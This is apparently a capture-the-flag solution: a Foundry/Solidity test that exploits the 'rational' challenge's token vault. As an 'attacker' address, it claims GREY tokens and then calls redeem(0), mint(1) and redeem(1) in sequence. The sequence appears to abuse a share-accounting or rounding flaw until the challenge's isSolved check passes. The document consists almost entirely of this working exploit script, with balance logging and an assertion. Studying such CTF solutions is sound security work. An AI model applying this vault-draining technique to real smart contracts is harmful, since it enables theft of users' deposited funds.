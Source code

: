 ```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import {Test, console} from "forge-std/Test.sol";
import {Setup} from "../src/rational_challenge/Setup.sol";

contract RationalSolution is Test {
    Setup public setupp;
    address public attacker = makeAddr("attacker");

    function setUp() public {
        setupp = new Setup();
    }

    function testExploit() public {
        //first we are claiming our 1000 GREY given by the setup contract
        vm.startPrank(attacker);
        setupp.claim();

        console.log("balance of attacker before redeeming", setupp.vault().asset().balanceOf(attacker) / 1e18);
        console.log("total supply of vault  before redeeming", setupp.vault().totalSupply() / 1e18);

        // setupp.vault().withdraw(0);
        setupp.vault().redeem(0);

        console.log(
            "balance of attacker after redeeming by the attacker", setupp.vault().asset().balanceOf(attacker) / 1e18
        );
        console.log("total supply of vault  after minting by the attacker", setupp.vault().totalSupply() / 1e18);

        setupp.grey().approve(address(setupp.vault()), 1);

        setupp.vault().mint(1);

        console.log("balance of attacker after minting", setupp.vault().asset().balanceOf(attacker) / 1e18);
        console.log("total supply of vault  after redeeming", setupp.vault().totalSupply() / 1e18);

        setupp.vault().redeem(1);

        console.log("balance of attacker after redeeming 2nd time", setupp.vault().asset().balanceOf(attacker) / 1e18);
        console.log("total supply of vault after redeeming 2nd time", setupp.vault().totalSupply() / 1e18);

        assertTrue(setupp.isSolved(), "not solved");
    }
}

```
## Solutions Repo

